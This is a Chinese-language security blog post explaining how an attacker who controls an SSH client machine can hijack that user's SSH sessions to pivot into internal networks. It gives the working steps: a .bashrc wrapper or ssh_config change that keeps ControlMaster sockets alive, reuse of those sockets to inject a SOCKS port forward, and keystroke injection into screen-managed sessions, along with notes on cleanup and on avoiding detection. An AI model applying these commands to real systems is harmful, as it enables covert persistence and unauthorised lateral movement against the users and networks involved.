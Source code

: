 # 劫持SSH会话注入端口转发


0x00 前言
=====

昨天Ａ牛发群里的链接，其实这种攻击我感觉适合留后门，属于Post Exploitation阶段，我以前也没用过这个方法，都是傻呼呼的用个ld_preload后门，实际环境测试通过后，发现可用，比较有实用价值，就分享下，有错误的地方还请大家指出。

0x01 细节
=====

1.1第一种场景：
---------

攻击流程如下：SSH客户（ssh_user）连接到hop_1，攻击者(attacker)能够控制ssh_user这台机器，攻击者通过注入端口转发来实现入侵hop_1和hop_2之后的网络。步骤如下：

![enter image description here](http://drops.javaweb.org/uploads/images/dd3dfa45d97f87a27252ce059349075b74452a1b.jpg)

### 1. 攻击者可以用两种方式来修改ssh客户端，如果有ROOT权限可以直接修改/etc/ssh/ssh_config，如果没有修改ssh_config文件的权限，可以通过在相应用户的.bashrc中封装ssh来实现。主要涉及的项如下：

```
ControlPath /tmp/%r@%h:%p
ControlMaster auto
ControlPersist yes　　

```

![enter image description here](http://drops.javaweb.org/uploads/images/a2d791f6707882fc5a48514f9d2877aa24b151f5.jpg)

如果打开了ControlPersist，表示用户在进行SSH连接后，即使退出了会话，我们也能通过socket劫持，因为这个文件不会删除。

### 2. 当(ssh_user)连接到hop_1（192.168.56.131）的时候，会在/tmp目录下生成一个socket文件，我们使用

```
ssh -S /tmp/root@192.168.56.131\:22 %h

```

来连接

![enter image description here](http://drops.javaweb.org/uploads/images/668f485b24977c632696de26dccd9716877e46b5.jpg)

注入命令端口转发的命令如下：

```
ssh -O forward -D 8888 -S /tmp/root@192.168.56.131\:22 %x

```

![enter image description here](http://drops.javaweb.org/uploads/images/2470d93111f1811f7d80c0158923b806e04288bb.jpg)

执行完这条命令后，我们就可以使用ssh_user这台机器的8888端口做SOCKS5代理，访问hop_2后的网段了。

### 3. 前面说过，如果ControlPersist为yes，则不会自动删除sockets文件，我们可以手工rm删除/tmp/root@192.168.56.131:22，也可以优雅的使用

```
root@kali: # ssh -O exit -S /tmp/root@192.168.56.131\:22 %x

```

来删除。

在.bashrc里封装ssh命令的方法如下：

```
ssh () 
{ 
    /usr/bin/ssh -o "ControlMaster=auto" -o "ControlPath=/tmp/%r@%h:%p" -o "ControlPersist=yes" "$@";
}

```

![enter image description here](http://drops.javaweb.org/uploads/images/45f1222847bd95fe007387b0787c1fd119e11766.jpg)

1.2第二种场景：
---------

这种情景是ssh_user用户使用screen管理ssh会话时的情景，步骤如下：

![enter image description here](http://drops.javaweb.org/uploads/images/696e98402ae6f2c175c9baa53ca5154ab2d022a7.jpg)

### 1. 当ssh_user使用

```
screen ssh root@192.168.56.131

```

连接远程的hop_1（192.168.56.131）时，会在/var/run/screen有显示相应的文件

```
root@kali:~# ls -la /var/run/screen/
total 0
drwxrwxr-x  3 root utmp  60 Mar 16 03:37 .
drwxr-xr-x 20 root root 640 Mar  3 21:23 ..
drwx------  2 root root  60 Mar 16 04:21 S-root

```

其中S-ROOT表示是本地的root用户连接的远程，可以用`screen -r root/`来接管会话，或者用`screen -x 6851.pts-0.kali`。

### 2. 如果要注入端口转发，还有 一点要注意，需要先执行script /dev/null来绕过pts/tty限制。命令如下

```
root@kali:~# lsof -i TCP:8888
root@kali:~# script /dev/null 
Script started, file is /dev/null
root@kali:~# screen -S 6851.pts-0.kali -p 0 -X  stuff $'~C'
root@kali:~# screen -S 6851.pts-0.kali -p 0 -X  stuff $'-D:8888\n\n'
root@kali:~# lsof -i TCP:8888
COMMAND  PID USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
ssh     6852 root    7u  IPv4  94301      0t0  TCP *:8888 (LISTEN)
ssh     6852 root    8u  IPv6  94302      0t0  TCP *:8888 (LISTEN)

```

注入screen的ssh会话，会有一个不好的地方，就是你敲的命令，会在当前正在连接的用户那里同时显示，容易被发现。

![enter image description here](http://drops.javaweb.org/uploads/images/3f1b41753207b6e99335fb8c1a4133ef565040ab.jpg)

0x02 参考文章
=====

http://0xthem.blogspot.com/2015/03/hijacking-ssh-to-inject-port-forwards.html